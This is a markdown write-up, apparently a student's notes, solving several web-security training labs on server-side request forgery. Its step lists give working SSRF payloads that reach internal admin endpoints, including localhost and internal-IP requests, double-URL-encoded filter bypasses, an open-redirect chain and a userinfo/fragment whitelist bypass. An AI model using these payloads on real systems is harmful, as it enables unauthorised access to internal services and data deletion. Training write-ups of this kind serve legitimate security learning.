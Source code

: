 #### 1.Lab: Basic SSRF against the local server

- This lab has an SSRF vulnerability in the stock check feature
- We see that to check the stock a post request is sent in the stockApi section
- now we write `stockApi=http://localhost/admin/delete?username=carlos` instead
- this
#### 2.Lab: Basic SSRF against another back-end system

It is stated in the lab. desc
- Send the `Post /product/stock` request to repeater
- change stockApi value to `http%3A%2F%2F192.168.0.1%3A8080%2Fadmin%2Fdelete?username=carlos`
- send the new POST request to Intruder
- Add a payload to at the end of the IP address `192.168.0.PAYLOAD_GOES_HERE`
- Set the payload to consist of Numbers from 1 to 255
- Wait till you get the 'Congratulations' message

#### 3.Lab: ~~Blind SSRF with out-of-band detection~~ Burp PRO


#### 4.Lab: SSRF with blacklist-based input filter

In this lab it is written in the lab description that the application has two weak SSRF-prevention measures. Prior to this we need to know that these applications might block certain expression in the request ergo blacklist certain words

- change the stockApi section to `stockApi=http://localhost/admin/delete?username=carlos`
- you'll see that this request is blocked by the application
- change the admin part of the stockApi to `%2561%2564%256d%2569%256e`
- and change the localhost part to 127.1
- with these changes the lab will be solved

#### 5.Lab: SSRF with filter bypass via open redirection vulnerability
It is sometimes possible to bypass filter-based defenses by exploiting an open redirection vulnerability. If the redirection is vulnerable we can use to perform an SSRF attack the lab tells us to use this URL : `http://192.168.0.12:8080/admin`.
- try pevious aproaches and fail
- click on the next product link
- check that it has a path section in the url
- change the url to `path=http://192.168.0.12:8080/admin/delete?username=carlos` in the stockApi section
- Voila Lab solved

#### 6.Lab: ~~Blind SSRF with Shellshock exploitation~~ Burp Pro


#### 7.Lab: SSRF with whitelist-based input filter

Some applications may have a whitelist that hold the expressions that are allowed in contrary to blacklist. In these cases we aim to exploit the inconsistencies and things that are overlooked while parsing the URL. We are informed that the we need to use the `http://localhost/admin` URL and it also informs that the vulnerability lies in the stock check feature.

- add a usernam to check if the website still returns a response `https://Wassup@stock.weliketoshop.net`
- add a `#` to express a URL fragment
- you will see that this is blocked by the application
- double URL encode `#` which is `%2523`
- change `Wassup` to `localhost:80` to be seen as someone accessing through the localhost
- now when we put the request together it looks like this:
- `http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos`
- and Voila Lab solved.